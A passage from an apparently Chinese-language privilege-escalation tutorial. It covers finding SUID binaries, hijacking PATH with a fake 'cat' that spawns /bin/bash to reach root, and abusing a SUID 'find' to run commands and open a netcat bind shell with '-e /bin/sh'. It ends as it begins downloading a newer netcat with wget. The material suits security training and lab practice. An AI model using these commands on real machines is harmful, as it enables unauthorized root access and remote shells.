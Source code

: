```
find / -perm -u=s -type f 2>/dev/null

```

> **![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821095414249.png)**

### 劫持环境变量提权

因为 System 函数是继承环境变量，可以通过替换环境变量达到执行任意命令。

在当前 / tep 中创建一个文件

```
echo "/bin/bash" > cat && chmod 777 cat

```

当前目录中的 cat 它会执行一个 shell

查看当前环境变量`echo $PATH`

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821100017254.png)

接着将 tmp 目录增加到环境变量

```
export PATH=.:$PATH

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821100512143.png)

接着执行 / tmp/suid-exp，就成功劫持为 root 权限

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821100709750.png)

在说一个 find，假如 find 也被设置了 suid，我们可以利用 find 提权，首先看看是否存在 find

```
touch sky
find sky -exec whoami \;

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821104757553.png)

前提是有 nc，发现是 root 权限，接着将这个 shell 打开

```
find sky -exec netcat -lvp 5555 -e /bin/sh \;

```

> ![](https://gitee.com/gylq/cloudimages/raw/master/img/image-20210821111906458.png)

结果 nc 版本太低，没有 - e 这个命令无法传递 shell，没办法，那就下一个版本高的 nc 吧，开整

**1、wget 下一个 tar 压缩的 nc**

```
wget  http://sourceforge.net/projects/netcat/files/netcat/0.7.1/netcat-0.7.1.tar.gz/download -O netcat-0.7.1.tar.gz 

```
